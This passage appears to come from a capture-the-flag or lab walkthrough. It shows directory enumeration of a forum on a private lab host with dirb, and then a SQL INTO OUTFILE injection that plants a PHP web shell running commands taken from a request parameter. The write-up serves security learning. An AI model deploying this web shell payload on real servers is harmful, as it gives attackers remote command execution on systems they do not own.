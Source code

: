 We use **dirb** again to find subdirectories of **"/forum"**:
```bash
$ dirb https://192.168.1.19/forum ~/Applications/dirb/wordlists/common.txt

-----------------
DIRB v2.22
By The Dark Raver
-----------------

...

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.1.19/forum/ ----
+ https://192.168.1.19/forum/backup (CODE:403|SIZE:293)
+ https://192.168.1.19/forum/config (CODE:403|SIZE:293)
==> DIRECTORY: https://192.168.1.19/forum/images/
==> DIRECTORY: https://192.168.1.19/forum/includes/
+ https://192.168.1.19/forum/index (CODE:200|SIZE:4935)
+ https://192.168.1.19/forum/index.php (CODE:200|SIZE:4935)
==> DIRECTORY: https://192.168.1.19/forum/js/
==> DIRECTORY: https://192.168.1.19/forum/lang/
==> DIRECTORY: https://192.168.1.19/forum/modules/
==> DIRECTORY: https://192.168.1.19/forum/templates_c/
==> DIRECTORY: https://192.168.1.19/forum/themes/
==> DIRECTORY: https://192.168.1.19/forum/update/
```

Every one of them are protected except for **templates_c**: 

```bash
SELECT "<form action='/forum/templates_c/hackedyou.php' method='GET'>Hacked you:<input type='text' name='hackedyou'><input type=submit value='exe command'<br><br><?php system($_REQUEST['hackedyou']); ?>" INTO OUTFILE "/var/www/forum/templates_c/hackedyou.php"
```

<br>![](./img/sql-success.png)
